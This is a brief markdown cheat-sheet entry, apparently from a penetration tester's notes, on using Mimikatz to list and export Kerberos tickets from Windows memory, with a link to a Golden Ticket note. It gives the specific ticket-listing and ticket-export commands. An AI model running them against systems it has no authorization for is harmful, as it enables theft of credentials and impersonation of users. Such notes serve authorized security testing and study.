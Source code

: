 # Mimikatz

- Check if tickets are present

```
C:\> klist

mimikatz # kerberos::list

mimikatz # kerberos::tgt
```

- Extract tickets

`mimikatz # sekurlsa::tickets /export`

---
## References

- [[Golden Ticket]]